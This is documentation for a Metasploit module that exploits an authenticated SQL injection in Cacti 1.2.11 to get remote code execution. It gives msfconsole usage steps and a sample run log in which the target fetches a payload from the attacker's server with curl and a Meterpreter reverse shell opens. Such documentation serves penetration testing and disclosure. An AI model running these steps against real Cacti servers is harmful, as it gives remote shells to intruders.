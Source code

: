 ## Vulnerable Application

### Description

This module allows an attacker with a privileged Cacti account to start a reverse shell using an sql injection
in the `filter` parameter of `color.php`. This then allows to set the `path_php_binary` field in `user_auth`
sql table of Cacti with a malicious payload. Finally that payload is triggered by a call to `host.php`

### Installation

Vulnerable versions of Cacti can be downloaded from [here](https://www.cacti.net/downloads/).
As it requires some work to configure it, you can use this [docker file](https://hub.docker.com/r/waperez/cacti)
(as long as it is not updated and remains a 1.2.11 version of Cacti)

## Verification Steps

List the steps needed to make sure this thing works

1. Start `msfconsole`
2. `use exploit/linux/http/cacti_authenticated_rce`
3. `set USERNAME <admin_username>`
4. `set PASSWORD <admin_password>`
5. `set TARGETURI <base_path_cacti>` if the base path of Cacti web server is different from `/`
6. `check` to check if the targeted Cacti server is vulnerable
7. `run` the module to exploit the vulnerability and start a reverse shell

## Options

### USERNAME

Set the USERNAME of your admin account.

### PASSWORD

Set the PASSWORD of your admin account.

## Scenarios

This module was successfully tested on Debian 10 with Cacti 1.2.11. See the following output :

```
msf6 exploit(cacti_rce) > run

[*] Started reverse TCP handler on X.X.X.X:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] Version 1.2.11 of Cacti found !
[+] The target is vulnerable.
[+] We successfully logged in !
[*] Using URL: http://0.0.0.0:8081/OOuyTjGJsbK
[*] Local IP: http://X.X.X.X:8081/OOuyTjGJsbK
[*] Client Y.Y.Y.Y (curl/7.58.0) requested /OOuyTjGJsbK
[*] Sending payload to Y.Y.Y.Y (curl/7.58.0)
[*] Sending stage (3012548 bytes) to Y.Y.Y.Y
[*] Meterpreter session 12 opened (X.X.X.X:4444 -> Y.Y.Y.Y:46828) at 2021-06-15 13:42:19 +0200
[*] Payload triggered !
[*] Command Stager progress - 100.00% done (117/117 bytes)
[*] Server stopped.

meterpreter >
```
